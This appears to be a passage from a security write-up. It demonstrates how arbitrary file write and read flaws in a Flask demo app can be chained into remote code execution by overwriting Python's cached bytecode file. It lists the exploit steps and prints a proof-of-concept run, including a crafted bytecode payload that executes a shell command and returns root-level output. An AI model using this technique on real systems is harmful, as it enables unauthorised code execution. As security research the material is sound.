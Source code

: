 Or, just wait for the server to restart to do the second import.

### Demonstration

In the following code, we have a Flask web application running with Python version 3.11 that allows an attacker to perform AFW. However, it only allows writing files in directory `/app`. Also, the filename must only contain alphanumeric, `-`, and `.` character. Moreover, the application is also vulnerable to arbitrary file read. And again, same limitations just like the those in AFW.

<details><summary><strong>app.py</strong></summary></details>

<details><summary><strong>telemetry.py</strong></summary></details>

<details><summary><strong>Dockerfile</strong></summary></details>

To overwrite the compiled bytecode file, we'll:
1. Send a GET request to `/telemetry` to dynamically import the module (To make sure the bytecode file is really compiled)
2. Leverage the arbitrary file read vulnerability to read the bytecode file's header fields and extract information such as the magic number, the modification date timestamp, and the source file size
3. Overwrite the compiled bytecode file via the AFW vulnerability with the new bytecode that contains our RCE payload
4. Trigger the overwritten bytecode file via sending a GET request to `/telemetry` (To dynamically import the overwritten bytecode file)

Here's the PoC script to do the above steps:

<details><summary><strong>poc.py</strong></summary></details>

```shell
└> python3 poc.py 
[*] Force compile telemetry.py bytecode file on the server...
[*] Reading the bytecode file content...
[*] Modifying the bytecode with our own RCE payload...
[*] Magic number: b'\xa7\r\r\n'
[*] Bit field: b'\x00\x00\x00\x00'
[*] Source modification time: Tue Apr 15 22:27:19 2025
[*] Source file size: 81
[+] RCE payload:
b'\xa7\r\r\n\x00\x00\x00\x00\xc7l\xfegQ\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xf3B\x00\x00\x00\x97\x00\x02\x00e\x00d\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x02S\x00)\x03\xda\x02osz\x1cid > /app/uploads/output.txtN)\x02\xda\n__import__\xda\x06system\xa9\x00\xf3\x00\x00\x00\x00\xfa\x11/app/telemetry.py\xfa\x08<module>r\x08\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xd8\x00\n\x80\n\x884\xd1\x00\x10\xd4\x00\x10\xd7\x00\x17\xd2\x00\x17\xd0\x186\xd1\x007\xd4\x007\xd0\x007\xd0\x007\xd0\x007r\x06\x00\x00\x00'
[*] Overwriting the original bytecode file with our own RCE payload...
[*] Triggering the overwritten bytecode file...
[+] Payload output:
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

### Without Arbitrary File Read?? Black-box Scenario??
